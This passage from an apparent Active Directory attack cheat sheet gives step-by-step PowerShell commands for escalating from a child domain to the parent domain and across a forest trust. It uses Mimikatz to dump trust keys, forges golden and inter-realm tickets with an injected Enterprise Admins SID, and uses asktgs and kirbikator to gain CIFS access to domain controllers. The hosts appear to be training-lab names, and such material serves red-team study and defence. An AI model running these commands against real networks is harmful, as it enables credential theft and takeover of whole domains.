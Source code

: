 ```powershell
# Use the TGS
.\kirbikator.exe lsa .\CIFS.mcorp-dc.corporate.local.kirbi
# Check
ls \\mcorp dc.corporate.local\c$
```

### Child to Parent using Krbtgt Hash

**1. Look for [In] trust key from child to parent:**
```powershell
# Look for [In] trust key from child to parent
Invoke-Mimikatz -Command '"lsadump::trust /patch"'      
```
**2. Create the inter-realm TGT:**
```powershell
# Create the inter-realm TGT
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<domain> /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:<hash> /ticket:C:\test\krbtgt_tkt.kirbi"'
```
**3. Inject the ticket using mimikatz:**
```powershell
# Inject the ticket
Invoke-Mimikatz -Command '"kerberos::ptt C:\test\krbtgt_tkt.kirbi"'
# Check
gwmi -class win32_operatingsystem -ComputerName mcorp-dc.corporate.local
```
**Example:**

![Main Logo](images/Example_Child_to_parent01.PNG 'Example04')

### Across Forest using Trust Tickets

**1. Request the trust key for the inter forest trust:**
```powershell
# request the trust key for the inter forest trust
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc.corp.corporate.local      
```
**2. Create the inter-realm TGT:**
```powershell
# Create the inter-realm TGT
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:<domain> /sid:S-1-5-21-1874506631-3219952063-538504511 /rc4:<hash> /service:krbtgt /target:eurocorp.local /ticket:C:\test\kekeo_old\trust_forest_tkt.kirbi"'
```
**3. Get a TGS for a service (CIFS below) in the target domain by using the
forged trust ticket:**
```powershell
# Get a TGS for a service
.\asktgs.exe C:\test\trust_forest_tkt.kirbi CIFS/eurocorp-dc.corporate.local
```
**4. Present the TGS to the service (CIFS) in the target forest:**
```powershell
# Present the TGS
.\kirbikator.exe lsa .\CIFS.eurocorp-dc.corporate.local.kirbi
```
